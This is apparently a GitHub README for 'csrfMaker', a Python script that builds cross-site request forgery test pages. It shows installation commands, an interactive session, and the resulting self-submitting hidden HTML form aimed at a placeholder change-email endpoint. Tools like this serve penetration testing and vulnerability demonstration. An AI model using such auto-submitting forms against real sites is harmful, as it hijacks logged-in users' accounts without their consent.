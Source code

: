 # csrfMaker

## overview
very basic python script for creating csrf html pages

## Installation
the script hasn't any third party dependency so you can esaily clone and run the code :
```sh
> git clone https://github.com/theN0b0dy/csrfMaker.git
> cd csrfMaker
```
you can also copy the script to `/bin` directory for running the code all over the system : 
```sh
> cp csrfMaker /usr/local/bin
> csrfMaker
```

## Usage
the script hasn't any third party dependency so you can esaily run the code :
```sh
> ./csrfMaker
Enter the action url for your form : https://example.com/change-email
Enter Form id (default: form) :
Enter the Method (GET,POST,PUT,DELET, ... default:POST ) :
Enter the name of your 1 input form(enter done for break) : email
Enter the value of your 1 input form : test@email.com
Enter the type of your 1 input form (default: hidden) :
Enter the id of your 1 input form (default: [your_input_name]) :
Enter the name of your 2 input form(enter done for break) : csrf
Enter the value of your 2 input form :
Enter the type of your 2 input form (default: hidden) :
Enter the id of your 2 input form (default: [your_input_name]) :
Enter the name of your 3 input form(enter done for break) : done
Enter your script(defualt:[just submit the form] :
Enter the name of your html template(default: csrf.html) : example.html
your example.html succesfully created.
```
the output file is :
```html
<html>
	<form action='https://example.com/change-email' method='POST' id='form'>
		<input type='hidden' name='email' value='test@email.com' id='email'/>
		<input type='hidden' name='csrf' value='' id='csrf'/>
	</form>
	<script>document.getElementById('form').submit();</script>
</html>
```
